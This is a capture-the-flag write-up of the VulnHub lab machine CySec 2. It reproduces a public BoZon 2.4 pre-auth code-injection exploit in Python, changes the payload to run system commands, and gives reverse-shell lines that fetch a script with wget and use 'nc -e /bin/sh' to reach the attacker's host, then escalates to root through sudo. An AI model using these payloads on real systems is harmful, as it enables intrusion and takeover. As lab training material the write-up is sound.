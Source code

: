 ```yaml
---
title: CySec:2 - Writeup
author: Elman Alizadeh
date: 2022-05-24 17:55:00 +0800
categories: [ctf, VulnHub]
tags: [vulnhub, cysec]
---
```


Today we will take a look at Vulnhub: CySec 2. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/vuln-cysec-2/1.png" | relative_url }})

## Network scan

Command: sudo nmap -p- -sV -sC -oN nmap/open -- open 192.168.0.115

```console
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b1:00:57:62:be:65:42:f0:ba:3e:c1:47:c5:8d:fb:db (RSA)
|   256 5a:9b:20:89:19:c3:ab:d4:be:06:84:de:e4:30:d4:37 (ECDSA)
|_  256 08:4b:f3:f8:88:7e:1a:6b:e1:8d:7f:14:60:10:7a:98 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.41 (Ubuntu)
3306/tcp  open  mysql   MySQL (unauthorized)
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
```

## Web

When we look at the source of the page, we see a sentence in encrypted form. Let’s decode it with CyberChef.

view-source:http://192.168.0.115/

```console
Zm9yIGZpcnN0IGZsYWcgY2hlY2sgL2NoYWxsZW5nZS9pbmRleC5waHAKZm9yIHNlY29uZCBmbGFnIGNoZWNrIC9FeG9saXQvaW5kZXgucGhw
```

[CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64%28%27A-Za-z0-9%2B/%3D%27,true%29&input=Wm05eUlHWnBjbk4wSUdac1lXY2dZMmhsWTJzZ0wyTm9ZV3hzWlc1blpTOXBibVJsZUM1d2FIQUtabTl5SUhObFkyOXVaQ0JtYkdGbklHTm9aV05ySUM5RmVHOXNhWFF2YVc1a1pYZ3VjR2h3)

```console
for first flag check /challenge/index.php
for second flag check /Exolit/index.php
```

When we look at /Exolit/index.php, we see that BoZon is version 2.4. After searching, we found the exploit.

[BoZoN_2.4_exploit](https://www.exploit-db.com/exploits/41084)

## Exploit

```console
import urllib,urllib2,time

#Bozon v2.4 (bozon.pw/en/) Pre-Auth Remote Exploit
#Discovery / credits: John Page - Hyp3rlinx/Apparition
#hyp3rlinx.altervista.org
#Exploit: add user account | run phpinfo() command
#=========================================================

EXPLOIT=0
IP=raw_input("[Bozon IP]>")
EXPLOIT=int(raw_input("[Exploit Selection]> [1] Add User 'Apparition', [2] Execute phpinfo()"))

if EXPLOIT==1:
    CMD="Apparition"
else:
    CMD='"];$PWN=''phpinfo();//''//"'

if EXPLOIT != 0:
   url = 'http://'+IP+'/Exolit/index.php'
   data = urllib.urlencode({'creation' : '1', 'login' : CMD, 'pass' : 'abc123', 'confirm' : 'abc123', 'token' : ''})
   req = urllib2.Request(url, data)
   
response = urllib2.urlopen(req)
if EXPLOIT==1:
    print 'Apparition user account created! password: abc123'
else:
    print "Done!... waiting for phpinfo"
    time.sleep(0.5)
    print response.read()
```

If we launch the operation, we must first register. So let’s select 1, create a user and log in

```console
└─$ python2 exploit.py
[Bozon IP]>192.168.0.115
[Exploit Selection]> [1] Add User 'Apparition', [2] Execute phpinfo()1
Apparition user account created! password: abc123
```

Let’s enter.

```console
username: Apparition

password: abc123
```

When we refresh the page after selecting the second operation, we encounter such a page.

![Desktop View]({{ "/assets/img/vuln-cysec-2/2.png" | relative_url }})

This is the command that does this.

```console
CMD='"];$PWN=''phpinfo();//''//"'
```

Let’s use it.

[WebShells](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/)

```console
CMD='"];system("ls -la");//''//"'
```

After changing this section, restart exploit and select the 2nd one. Then refresh the page.

The code has been executed

![Desktop View]({{ "/assets/img/vuln-cysec-2/3.png" | relative_url }})

“You can contact me if you have any questions.”

## Reverse shell

Let’s prepare such a useful load called reverse.sh

```console
#!/bin/bash 

nc -e /bin/sh YourİP 1234
```

Now let’s load it on the other side

Local machine

Command: python3 -m http.server 80

In exploit

```console
CMD='"];system("wget http://YourIP/reverse.sh");//''//"'

CMD='"];system("bash reverse.sh");//''//"'
```

Local machine
```console
nc -nvlp 1234
```
After listening, let’s refresh the page and get the shell.

![Desktop View]({{ "/assets/img/vuln-cysec-2/4.png" | relative_url }})

## CySec2

If we look at the flag.txt file, we can find the password for cysec2.

Command: cat flag.txt

```console
username = cysec2 
password =  $^WAhuy457i6kj
```

Command: su cysec2

## Root

Check privileges

Command: sudo -l

```console
(ALL : ALL) ALL
```

Command: sudo su

![Desktop View]({{ "/assets/img/vuln-cysec-2/5.png" | relative_url }})

### And now we are the root

![Desktop View]({{ "/assets/img/vuln-cysec-2/1.gif" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”